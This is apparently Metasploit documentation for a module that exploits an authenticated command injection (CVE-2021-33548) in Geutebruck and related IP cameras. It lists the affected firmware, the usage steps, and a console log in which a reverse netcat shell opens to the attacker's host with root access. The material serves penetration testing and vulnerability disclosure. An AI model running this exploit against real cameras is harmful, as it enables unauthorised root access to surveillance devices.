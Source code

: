 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypass & exploits an authenticated OS command injection vulnerability (CVE-2021-33548) within the
`state` GET parameter of /uapi-cgi/factory.cgi.
This issue occurs due to a lack of validation on the `state` parameter, which allows an attacker to
inject a command alongside other parameters passed to the CGI, at which point the server will then interpret the new string as a separate command to be executed. Successful exploitation will result in
remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_factory_exec`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_factory_exec
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_factory_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_factory_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_factory_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
